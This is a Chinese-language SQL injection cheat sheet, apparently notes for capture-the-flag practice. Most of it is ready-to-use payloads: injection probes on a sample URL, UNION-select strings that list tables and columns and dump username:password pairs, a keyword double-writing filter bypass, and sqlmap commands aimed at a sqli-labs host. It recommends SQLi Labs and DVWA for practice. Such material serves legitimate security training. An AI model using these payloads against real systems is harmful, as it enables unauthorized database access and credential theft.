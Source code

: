 # SQL注入

* ### 注入尝试

```
http://newspaper.com/items.php?id=2 //正常回显
http://newspaper.com/items.php?id=2 and 1=2 //提示报错或者未搜索到
http://newspaper.com/items.php?id=2 and 1=1 //正常回显
```

则可以执行注入，注入点为?id=

* ### 开始注入

Payload构造：

```
id=2'; show database;#
id=-1' order by 1#   //利用order by 1/2/3/4 查询列数
id=-1' union select 1,2,3,4,...,n#   //联合注入查看返回值（n为order by已确定的列数）
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#   //爆database里面的表
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'#    //爆users表里面的字段
id=-1' union select 1,2,group_concat(username,0x3a,password) from users#    //爆值，最后输出以username:password格式输出
```

* ### 盲注
* ### Bypass

有一些题目中不需要用单引号闭合直接进行执行

一些题目中需要单引号加括号应对\('id'\)语句

一些题目中需要进行双引号加括号 --&gt; \("id"\)

或者双写绕过

```
union select --> uniunionon selselectect
```

* ### SQLMAP

sqlmap语句

```
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security(数据库名) --tables --batch -v 0    //爆表
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security -T users（表名） --columns --batch -v 0    //爆字段
python sqlmap.py -u 10.101.143.198/sqli-labs/Less-1/?id=1 --technique UE --dbms mysql -D security -T users -C username,password（字段名） --dump --batch -v 0    //爆值
```

* #### 推荐练习环境

* SQLi Labs
* DVWA



